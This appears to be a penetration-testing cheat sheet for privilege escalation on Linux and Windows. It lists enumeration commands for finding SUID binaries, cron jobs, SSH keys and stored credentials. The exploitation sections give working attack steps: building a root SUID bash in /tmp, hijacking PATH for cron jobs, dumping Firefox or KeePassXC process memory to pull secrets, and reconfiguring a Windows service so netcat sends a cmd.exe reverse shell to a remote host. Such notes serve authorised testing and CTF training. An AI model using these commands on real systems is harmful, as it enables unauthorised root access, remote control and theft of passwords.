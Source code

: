 # Linux

## Enumeration

`id` List user ID and groups.
Manually enumerate user home directories for interesting files.
`history` or `less .bash_history` etc. Check shell history.
`ls -al /` Look for signs that user is in a docker container.
`findmnt` Find mounts connected to the system.
`mount` Check for docker container or unsafe mounts.
`env` View/modify environment variables.
`echo $PATH` Check the path.
Relative path program exploits.
`sudo -l` List commands user can run as root.
`find / -perm -4000 2>/dev/null` Find SUID binaries.
Check `/etc/apache2` and `/etc/nginx` for `sites-available` files to enumerate.
Check `/var/www` and `/opt` for interesting files.
`git log -p > all-git-commits.txt` Inspect git commits.
Find web server, git, and other config files that may contain credentials.
Check databases for credentials.
Find SSH key files.
`crontab -l` List user crontab.
`cat /etc/crontab` List system crontab.
`ps auxww | grep root` Investigate interesting root processes.
`pspy` Spy on processes to find cron jobs.
Modify vulnerable shell scripts, config files, environment variables, etc.
`ls -al /var/mail` Check user mail.
`docker` Exploit docker containers.
`kubeletctl` Exploit Kubernetes containers.
Run LinPEAS.
`find / -type f -user username 2>/dev/null` Find interesting files owned by username.
`lsattr` Check for vulnerable file attributes.
`getcap -r / 2>/dev/null` Find tools on the system that can do network stuff.
Get OS kernel and release info with `uname -a`, `lsb_release -a`, or `cat /etc/*release`.
## Exploitation

Create SUID Bash (E.g., Leverage hacked cron job or container root access to host filesystem)
```
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod 4755 /tmp/bash
```

Execute SUID Bash
`bash -p`

Path Variable Hijacking (e.g., for cron job binary without absolute path)
`export PATH=/tmp:$PATH`

# Windows

## Enumeration

Net User Groups
`net user username`

Whoami Groups
`whoami /groups`

Enumerate Services (even when sc.exe is denied permission)
`reg query "HKLM\System\CurrentControlSet\Services"`

Get Service Details (sc.exe)
`sc.exe qc servicename`

Get Service Details (registry)
`reg query "HKLM\System\CurrentControlSet\Services\servicename"`

List Processes
`get-process`

Dump Process Memory. E.g., Firefox, KeePassXC
`procdump.exe -ma pid process.dmp`

Extract Strings from Binary Files
`strings -el process.dmp`

## Exploitation

Service Binary Path Revshell
```
Users who are in the "Server Operators" group can modify, start, and stop system services.

Example of revshell via service binary path (e.g., vss service):

sc.exe config servicename binPath="c:\users\username\nc.exe -e cmd.exe ipaddress port"

nc -lvnp port

sc.exe stop servicename
sc.exe start servicename

WARNING: The above shell is unstable and will probably die after seconds.
Use meterpreter instead.
```
